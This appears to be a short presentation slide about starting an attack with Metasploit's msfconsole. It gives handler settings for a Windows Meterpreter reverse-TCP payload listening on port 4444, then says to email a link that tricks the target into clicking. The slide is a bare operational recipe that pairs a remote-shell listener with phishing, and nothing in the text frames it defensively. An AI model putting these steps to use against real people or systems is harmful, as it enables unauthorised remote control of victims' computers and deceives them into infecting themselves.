

Using msfconsole to start exploiting
Settings:
- use multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST 0.0.0.0
- ser LPORT 4444
- Exploit
Send an email including the link to trick them into clicking in